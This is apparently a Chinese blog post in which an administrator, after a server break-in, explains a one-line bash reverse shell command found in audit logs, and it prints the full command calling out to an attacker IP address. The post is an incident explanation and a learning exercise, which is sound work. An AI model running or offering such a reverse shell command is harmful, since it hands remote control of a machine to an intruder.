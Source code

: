 ```yaml
---
layout: post
title: 单行反弹Shell命令的理解
description: "单行反弹Shell命令的理解"
category: Shell
avatarimg:
tags: [Linux, Shell, Security]
duoshuo: true
---
```


公司的一台服务器被黑客入侵了。。。安全没做好！！！
查看bash审计日志，发现黑客执行的相关命令，其中有一条反弹Shell的命令，在被黑的服务器上执行如下：
> bash -i >& /dev/tcp/173.208.201.162/9083 0>&1 &

执行后的效果就是黑客在自己的机器上利用nc等工具监听9083端口，不仅可以发送命令到被黑服务器上，命令的输出也会回显到黑客的机器上，整个表现就是被黑服务器的Shell反弹到黑客机器上了，和SSH远程登录一台服务器执行命令一样。。。

理解上面的单行命令，费了好半天，看来对bash shell的掌握还不够啊。

- 首先， bash -i开启了Shell的交互模式，这样反弹Shell后，黑客可以和它交互；
- 然后是这段： >& /dev/tcp/173.208.201.162/9083，表示bash打开到远程目标IP端口的TCP连接，并将标准出重定向到远程目标IP端口上；
- 再然后是这段：0>&1，表示标准输入（这个标准输入是在远端执行的）也重定向到远程目标IP端口上？（PS: 这里我不是很好理解，欢迎高手指点下。）
- 最后的&表示后台运行，这样就相当于常驻后台的后门了。

我不得不感叹，第一个想出这种用法的人真是变态啊，算是奇技淫巧，对bash shell的掌握很深入了。

**Refercences: **
[交互式shell和非交互式shell](http://blog.csdn.net/trochiluses/article/details/13767669)  
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[REVERSE SHELL WITH BASH](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)  
[What is the difference between &> and >& in bash?](http://superuser.com/questions/335396/what-is-the-difference-between-and-in-bash)
